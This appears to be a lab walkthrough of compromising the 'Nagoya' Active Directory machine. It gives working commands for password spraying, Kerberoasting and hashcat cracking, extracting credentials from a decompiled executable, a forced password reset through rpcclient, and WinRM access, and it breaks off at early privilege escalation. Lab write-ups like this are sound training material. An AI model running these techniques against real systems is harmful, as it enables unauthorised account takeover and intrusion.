# Nagoya

Enumeration

Started with an nmap scan as always:

```
# Nmap 7.94SVN scan initiated Wed Jun 19 13:12:30 2024 as: nmap -Pn -A -p- -o ./enumeration/external_tcp_all.nmap 192.168.200.21
Nmap scan report for 192.168.200.21
Host is up (0.052s latency).
Not shown: 65512 filtered tcp ports (no-response)
PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
80/tcp    open  http              Microsoft IIS httpd 10.0
|_http-title: Nagoya Industries - Nagoya
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2024-06-19 19:14:36Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: nagoya-industries.com0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: nagoya-industries.com0., Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl?
3389/tcp  open  ms-wbt-server     Microsoft Terminal Services
|_ssl-date: 2024-06-19T19:16:15+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=nagoya.nagoya-industries.com
| Not valid before: 2024-06-18T19:05:00
|_Not valid after:  2024-12-18T19:05:00
| rdp-ntlm-info: 
|   Target_Name: NAGOYA-IND
|   NetBIOS_Domain_Name: NAGOYA-IND
|   NetBIOS_Computer_Name: NAGOYA
|   DNS_Domain_Name: nagoya-industries.com
|   DNS_Computer_Name: nagoya.nagoya-industries.com
|   DNS_Tree_Name: nagoya-industries.com
|   Product_Version: 10.0.17763
|_  System_Time: 2024-06-19T19:15:36+00:00
5985/tcp  open  http              Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf            .NET Message Framing
49666/tcp open  msrpc             Microsoft Windows RPC
49668/tcp open  msrpc             Microsoft Windows RPC
49669/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc             Microsoft Windows RPC
49673/tcp open  msrpc             Microsoft Windows RPC
49683/tcp open  msrpc             Microsoft Windows RPC
49690/tcp open  msrpc             Microsoft Windows RPC
49709/tcp open  msrpc             Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 4 hops
Service Info: Host: NAGOYA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-06-19T19:15:39
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

### Port 53

I was able to find a few DNS records but nothing extensive. Also the zone transfer failed:

<figure><figcaption><p>DNS enumeration</p></figcaption></figure>

### Port 80

The landing page appears to be some sort of business website:

<figure><figcaption><p>Landing page on port 80</p></figcaption></figure>

I generated a custom wordlist with `cewl` using basically the same technique as in the [Craft2 writeup](craft2.md#cewl). I also append SecLists' `Web-Content/big.txt` to the wordlist. I then ran `feroxbuster` against the port:


```bash
feroxbuster -L 20 -w ./enumeration/web_enum.txt -k -x @ferox_extensions.txt -C 404 -E -r -u http://nagoya.offsec -o ./enumeration/p80.feroxbuster
```


<figure><figcaption></figcaption></figure>

I check out the /team page and it contains a list of employees:

<figure><figcaption><p>Team page on port 80</p></figcaption></figure>

I suspect this could be usernames so I copy/paste them into a file and join the names with a period:


```
Matthew.Harrison
Emma.Miah
Rebecca.Bell
Scott.Gardner
Terry.Edwards
Holly.Matthews
Anne.Jenkins
Brett.Naylor
Melissa.Mitchell
Craig.Carr
Fiona.Clark
Patrick.Martin
Kate.Watson
Kirsty.Norris
Andrea.Hayes
Abigail.Hughes
Melanie.Watson
Frances.Ward
Sylvia.King
Wayne.Hartley
Iain.White
Joanna.Wood
Bethan.Webster
Elaine.Brady
Christopher.Lewis
Megan.Johnson
Damien.Chapman
Joanne.Lewis
```


Unfortunately there does not appear to be too much else here.

### Port 135

I attempted some RPC enumeration anonymously. I ran rpcdump but found no . I also attempted an anonymous `rpcclient` connection but was denied.

<figure><figcaption><p>Anonymous RPC enumeration</p></figcaption></figure>

### Ports 139 & 445

I also attempted some anonymous SMB enumeration but it was no good:

<figure><figcaption><p>Anonymous SMB enumeration attempts</p></figcaption></figure>

### Ports 389 & 636

I also checked LDAP. `ldeep` was unfortunately unable to bind anonymously. `ldapsearch` could get some simple information but the `search` part of `ldapsearch` was not available:

<figure><figcaption><p>LDAP anonymous enumeration</p></figcaption></figure>

## Foothold

At this point I am stuck. All I can really think to do is password spray.

### Password Spraying

I attempt to work up a list of potential usernames based on the site and what I know about the box (namely that it was a special "Summer" machine in 2023). I workup a passwords file


```
Nagoya
nagoya
Industry
Industry
NagoyaIndustry
nagoya.industry
Summer
summer
Summer23
summer23
Summer2023
Summer2023
Japan
japan
Offesc
offsec
```


I combine this with the users.txt file generated above and run it through CrackMapExec:

```bash
crackmapexec smb 192.168.200.21 -u users.txt -p pass.txt --shares
```

Luckily I get a hit!

<figure><figcaption><p>Password found</p></figcaption></figure>

I add the pair to my creds.txt file and keep moving:


```
fiona.clark:Summer2023    SMB Credentials found via spraying
```


### Kerberoasting

Now that I have some credentials I will attempt to see if any users are [Kerberoastable](../../windows/active-directory/authentication/attacking-ad-authentication/kerberoasting.md). To do this I will use Impacket's [`GetUserSPNs`](../../windows/active-directory/authentication/attacking-ad-authentication/kerberoasting.md#impacket):


```bash
impacket-GetUserSPNs -request -outputfile hashes.kerberoast -dc-ip 192.168.200.21 nagoya-industries.com/fiona.clark:'Summer2023'
```


This turns up 2 users:

<figure><figcaption><p>Kerberoastable users</p></figcaption></figure>

I then run hashcat over the file cracking one:


```bash
hashcat -m 13100 -w 3 -o cracked.kerberoast hashes.kerberoast /usr/share/wordlists/rockyou.txt
```


The revealed credentials are for the `svc_mssql` account. I add them to `creds.txt`:


```
fiona.clark:Summer2023  SMB Credentials found via spraying
svc_mssql:Service1      Kerberoasted and cracked
```


#### Using New Account

Now that I have some new credentials I start poking around with them. My first stop is CrackMapExec. I check SMB and WinRM to see if there are any new shares, or even better, the ability to make a remote connection. No dice on either front unfortunately:

<figure><figcaption></figcaption></figure>

### SMB Enumeration

I start manually enumerating the shares accessible to me. I can use either `fiona.clark` or `svc_mssql` as they seem to have equivalent permissions for shares. I find something interesting on the `NETLOGON` share:

<figure><figcaption><p>Interesting .exe on NETLOGON share </p></figcaption></figure>

### Examining the .exe

I start with the strings command but nothing helpful comes out:

```bash
strings ResetPassword.exe
```

<figure><figcaption><p>Output from strings</p></figcaption></figure>

I check out the config file that was also extracted and it gives some good clues about how the `.exe` was created:


```xml
<?xml version="1.0" encoding="utf-8" ?>
<configuration>
    <startup> 
        <supportedRuntime version="v4.0" sku=".NETFramework,Version=v4.7.2" />
    </startup>
</configuration>
```


Looks like this particular `.exe` was compiled from a .NET project.

#### .NET Decompiler

At this point I became somewhat stuck. Turns out there are not a lot of good .NET decompilers for Linux which kind of makes sense. Most sources I could find recommended using the [`dnSpy`](https://github.com/dnSpy/dnSpy) decompiler. Unfortunately that is a Windows tool. I attempted running it with [`wine`](https://winehq.org/) but it was not working on my system. After some digging I found another .NET decompiler for Linux, [`CodmerxDecompile`](https://decompiler.codemerx.com/), in an [SO comment](https://stackoverflow.com/a/63289875). I had it running in seconds and as soon as I opened the executable in the decompiler I found another set of credentials:

<figure><figcaption><p>Credentials in .exe</p></figcaption></figure>

I also add these to my `creds.txt` file:


```
fiona.clark:Summer2023                          SMB Credentials found via spraying
svc_mssql:Service1                              Kerberoasted and cracked
svc_helpdesk:U299iYRmikYTHDbPbxPoYYfa2j4x4cdg   Extracted from ResetPassword.exe (found in SMB share)
```


### Using Help Desk Account

Given that this is a help desk account it is reasonable to assume that it would have some elevated control over other user accounts. Also considering that I lifted the credentials from an executable called "`ResetPassword`" it stands to reason I probably have the sufficient permissions to reset a user's password.&#x20;

I find this [super-helpful article](https://malicious.link/posts/2017/reset-ad-user-password-with-linux/) on using `rpcclient` to reset a password. So with that in mind, all I need to do is pick a target. To do this enumeration I will use [`ldeep`](../../windows/active-directory/enumeration/automated.md#ldeep) and enumerate the AD environment via LDAP.

### Finding a Target Account

I start with the `ldap users` command and list out the domain's users:


```bash
ldeep ldap -u svc_helpdesk -p 'U299iYRmikYTHDbPbxPoYYfa2j4x4cdg' -d nagoya-industries.com -s ldap://192.168.151.21 users
```


<figure><figcaption></figcaption></figure>

#### Enumerating Users' Group Memberships

At this point I start cycling through the users checking their group memberships looking for a good target. I am looking for someone I expect to have remote access but is just a normal user account. I likely will not be able to change a domain admin's account with my lowly help desk account.&#x20;

To do this enumeration I plan to use `ldeep`'s `ldap memberships` command. It will return the results of an LDAP query for group membership:


```bash
ldeep ldap -u svc_helpdesk -p 'U299iYRmikYTHDbPbxPoYYfa2j4x4cdg' -d nagoya-industries.com -s ldap://192.168.151.21 memberships <user>
```


To make this a bit faster I put the users (enumerated above) into a file called users.txt. I then write this little bash script to run it:


```bash
#!/bin/bash

# Check number of arguments
if [ "$#" -ne 1 ]; then
    echo "Usage: enumerate-groups.sh users.txt"
fi

# Iterate through users
while IFS="" read -r p || [ -n "$p" ]
do
  printf '%s\n' "$p"
  ldeep ldap -u svc_helpdesk -p 'U299iYRmikYTHDbPbxPoYYfa2j4x4cdg' -d nagoya-industries.com -s ldap://192.168.151.21 memberships $p
  printf '\n'
done < $1
```


Once it is run the account that looks most promising is christopher.lewis:

<figure><figcaption><p>Group memberships for users</p></figcaption></figure>

It looks like `Christopher.Lewis` is a member of the `developers` and `employees` groups. Most other users seem to be either-or. With that in mind I select this as my target account. Hopefully his multi-group membership proves useful.

### Resetting a Password

Referencing the [article linked](https://malicious.link/posts/2017/reset-ad-user-password-with-linux/) I connect to rpcclient as `svc_helpdesk`. I will use the setuserinfo2 command to reset the password:


```bash
rpcclient -U nagoya-industries/svc_helpdesk 192.168.151.21
```


```
setuserinfo2 Christopher.Lewis 23 'P@ssword123!'
```

This runs successfully:

<figure><figcaption><p>Successful password update</p></figcaption></figure>

I test my access and am pleased to find I can sign in as `Christopher.Lewis` via SMB and WinRM. I fire up `evil-winrm` and I have achieved user access as `Christopher.Lewis`:

<figure><figcaption><p>User access achieved</p></figcaption></figure>

## Privilege Escalation

I start by putting all my tools into an /smb folder, moving to that directory and launching an SMB server with Impacket. This will allow me to run `.exe`s from my machine instead of transferring them (if this fails I use HTTP usually but this is my first choice):


```bash
impacket-smbserver -debug -smb2support tools $PWD
```


### Initial Scans

I start with a SharpHound and Certify scan:


```bash
\\x.x.x.234\tools\SharpHound.exe --CollectionMethods All --OutputPrefix "christopher_lewis" --OutputDirectory \\x.x.x.234\tools
```



```bash
\\x.x.x.234\tools\Certify.exe find /vulnerable
```


